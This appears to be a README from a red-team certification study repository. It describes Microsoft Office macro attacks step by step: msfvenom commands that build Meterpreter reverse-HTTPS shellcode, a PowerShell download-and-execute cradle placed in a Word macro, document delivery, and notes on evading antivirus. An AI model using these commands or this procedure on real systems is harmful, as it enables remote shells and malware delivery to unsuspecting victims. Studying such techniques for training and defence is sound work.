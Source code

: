 ### Microsoft Office Attacks.

The client-side attacks based on Microsoft Office's programs is a type of attack that involves the macros feature of Microsoft Office tools in a procedure that leads to RCE on victim's host.

In this repository we can find some scripts and procedures to craft and test macros that run arbitrary code when this gets open, but the are three main ways to gain RCE leveraging this scripts.

<br>

### Simple VBA way.

The simply VBA way works with in an enviroment with no AV or EDR mechanism enabled.

1. We craft a meterpreter executable with the help of [msfvenomPayloads.sh](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/msfvenomPayloads.sh) script.

2. Then, we make use of [PSHTTPDownloader.vba](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/PSHTTPDownloader.vba) in order to download and store in the victim machine the msfvenom payload we crafted before and then we execute it. 

3. Finally, with the contents PSHTTPDownloader.vba properly formed, we make a [macro](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/README.md) on a Word document and deliver the document. 

4. We retrieve the connection by using a [listener](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/Listener.sh).

Is worth to mention that, because we store the malware on the hard disk (since we download a binary), an AV can detect malicious hash on this file and because we simply execute the payload, we create a new process that is checked by the AV before it get properly executed so is also suscetible to be caneceled.

Thus, we terminate this part by saying that this method of gain RCE on a machine is highly insecure.

<br>

### Inyecting shellcode on an existing process.

There are more sofistaced ways to gain RCE that avoids defense mechanism, here we will see two; with VBA and with PowerShell mixed with VBA.

<br>

#### The VBA way.

We can directly create a macro that stores a shellcode and execute it.

1. First we create a Shellcode for a 'vbaapplication' making use of [ShellCode.sh](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/ShellCode.sh)

    ```shell
    msfvenom -p windows/meterpreter/reverse_https LHOST=<IP> LPORT=<LPORT> EXITFUNC=thread -f vbapplication
    ```

2. Then, make use of the [ShellCode.vba](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/ShellCode.vba) and paste on it the crafted shellcode replacing the *buf* variable. 

3. With the ShellCode.vba finished, we make a [macro](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/README.md) on a Word document and deliver the document.

4. We retrieve the connection by using a [listener](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/Listener.sh).


This method is kind of more reliable than the one before because the ShellCode.vba make use of a Win32 API; *CreateThread*, that creates an execution thread on the current process (inyecting code) effectively bypassing the execution process cheking by the AV that only happens at the launching of a new process. 

However, this still a dangerous way because we still storing malicious code on the hardisk; the proper shellcode.vba macro.

<br>

#### Make use of PowerShell resources.

We can execute the code of a remote script by using some Powershell methods.

1. First we craft our shellcode with the help of [ShellCode.sh](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/ShellCode.sh) file for a 'ps1' application, this is:

    ```shell
    msfvenom -p windows/meterpreter/reverse_https LHOST=<LHOST> LPORT=<LPORT> EXITFUNC=thread -f ps1
    ```
2. Once we craft it, we paste it in the '$buf' variable of [VBAenvlauncher.ps1](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/VBAenvlauncher.ps1) script.

3. Then, we make use of [LaunchinApp_Shell.vba](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/LaunchinApp_Shell.vba) to execute a PowerShell program that downloads and executes the prepared VBAenvlauncher.ps1 script. The line stored on the *str* var must be:

    ```powershell
    powershell (New-Object System.Net.WebClient).DownloadString('<URL>') | IEX
    ```

    Replacing the \<URL\> with the proper vaules.

4. We retrieve the connection by using a [listener](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/Listener.sh).

The rest of scripts present on this repository are only to help the reader to understand the main scripts necesary to perform the operation.

<br>